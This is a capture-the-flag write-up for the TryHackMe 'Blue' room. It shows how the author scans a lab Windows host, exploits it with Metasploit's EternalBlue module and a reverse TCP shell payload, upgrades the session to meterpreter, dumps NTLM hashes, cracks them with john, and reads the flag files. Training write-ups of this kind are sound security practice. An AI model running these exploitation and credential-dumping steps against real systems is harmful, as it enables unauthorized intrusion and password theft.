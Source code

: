 # Blue

- [Tools](#tools)
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags](#find-flags)

Room Link: [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

Badges: [https://tryhackme.com/ZishanAdThandar/badges/blue](https://tryhackme.com/ZishanAdThandar/badges/blue)

## Tools 

- NMap https://nmap.org/download
- Metasploit https://www.metasploit.com/download

## Recon

- Scan with nmap using command, `nmap 10.10.248.180 --script vuln -p0-1000`

Output:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-27 10:57 IST
Nmap scan report for 10.10.248.180
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
135/tcp open  msrpc
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-webexec: ERROR: Script execution failed (use -d to debug)
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-webexec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: ERROR: Script execution failed (use -d to debug)
|_smb-double-pulsar-backdoor: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-conficker: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-cve-2017-7494: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms06-025: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms07-029: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms08-067: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms17-010: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 34.07 seconds
```
- Question `How many ports are open with a port number under 1000?` Answer `3`
- Question `What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)` Answer `ms17-010`

## Gain Access

- Start Metasploit with `msfconsole`
- Following next question, searched exploit in metasploit console with `search ms17-010` command
Output:

```bash
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```
- Question `Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)` Ansswer `exploit/windows/smb/ms17_010_eternalblue`
- To use the exploit we typed `use exploit/windows/smb/ms17_010_eternalblue` command
- After checkinh options with `options` command, we found that we need to add rhosts with `set rhosts 10.10.248.180` and `set lhost tun0` command
- Question `Show options and set the one required value. What is the name of this value? (All caps for submission)` Answer `RHOSTS`

## Escalate 

- Used payload with command `set payload windows/x64/shell/reverse_tcp`
- Then `run` and wait for some time.
- `search shell_to_meterpreter` to find module to upgrade session to meterpreter.
Output:

```bash
Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
```
- Question `If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)` Answer `post/multi/manage/shell_to_meterpreter`
- Question `Select this (use MODULE_PATH). Show options, what option are we required to change?` Answer `SESSION`
- Run the module after setting session. If fails run it again, it will connect.

```bash
meterpreter > shell
Process 808 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ps
ps
'ps' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>exit
exit
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 416   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM  ...........
...............................................................................
...............................................................................
```
- Use `migrate PROCESS_ID` to mmigrate.

## Cracking

- Use `hashdump` to hashes.
Output:

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
- Question `Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?` Answer `Jon`
- Save hashes in a file named `hash.txt` and use `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` to crack the hash.
- Question `Copy this password hash to a file and research how to crack it. What is the cracked password?` Answer `*******`

## Find flags

- We can goto `C:\\` abd get first flag using `cat flag1.txt`.

```bash
meterpreter > pwd
C:\Windows\system32
meterpreter > cd C:\\
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-13 08:43:36 +0530  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 10:38:56 +0530  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 08:50:08 +0530  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-18 03:52:01 +0530  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-18 03:58:38 +0530  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-18 04:05:57 +0530  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-13 08:43:22 +0530  Recovery
040777/rwxrwxrwx  4096   dir   2019-03-18 04:05:55 +0530  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-13 08:43:28 +0530  Users
040777/rwxrwxrwx  16384  dir   2019-03-18 04:06:30 +0530  Windows
100666/rw-rw-rw-  24     fil   2019-03-18 00:57:21 +0530  flag1.txt
000000/---------  0      fif   1970-01-01 05:30:00 +0530  hiberfil.sys
000000/---------  0      fif   1970-01-01 05:30:00 +0530  pagefile.sys

meterpreter > cat flag1.txt
flag{********************************}
```
- We can use `search -f flag2.txt` and `search -f flag2.txt` to find second and third flag to submit, as we already know the first one.

```bash
meterpreter > search -f flag2.txt
Found 1 result...
=================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Windows\System32\config\flag2.txt  34            2019-03-18 01:02:48 +0530

meterpreter > cat c:\Windows\System32\config\flag2.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat "c:\Windows\System32\config\flag2.txt"
flag{********************************s}
meterpreter > search -f flag3.txt
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\Jon\Documents\flag3.txt  37            2019-03-18 00:56:36 +0530

meterpreter > cat "c:\Users\Jon\Documents\flag3.txt"
flag{********************************}
```
- flag1 : `flag{********************************}` flag2: `flag{********************************}` flag3:`flag{********************************}`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
